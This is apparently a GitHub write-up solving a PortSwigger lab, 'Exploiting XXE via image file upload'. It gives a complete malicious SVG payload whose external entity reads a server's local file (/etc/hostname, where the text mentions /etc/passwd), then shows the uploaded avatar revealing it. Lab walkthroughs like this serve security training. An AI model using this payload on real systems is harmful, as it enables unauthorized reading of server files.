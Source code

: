 ## Exploiting XXE via image file upload

## Solution

The image upload functionality is vulnerable to XXE attack.

Since SVG image formats are XML based, we can try to upload an SVG image & modify the content of the xml to retreive /etc/passwd.

<img width="1433" alt="image" src="https://github.com/SantoshKumarP1412/PortSwigger/assets/140537888/89fa05c4-a49d-4c69-a54e-a340f5faaf2e">

In the above request remove all the tag contents and replace it with this payload.


<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>


<img width="1439" alt="image" src="https://github.com/SantoshKumarP1412/PortSwigger/assets/140537888/70080467-05b4-4b97-8e3d-837b0c6dfc71">


We get a 302 Redirect which means the file upload is successful.

We can see the image has been uploaded as avatar

<img width="1439" alt="image" src="https://github.com/SantoshKumarP1412/PortSwigger/assets/140537888/5674d0e4-bbef-496a-ba5c-8cf2868ff8be">

Use the "Submit solution" button to submit the value of the server hostname.

<img width="1433" alt="image" src="https://github.com/SantoshKumarP1412/PortSwigger/assets/140537888/67fb1de2-a6fe-491c-8fbf-1188e11a714b">
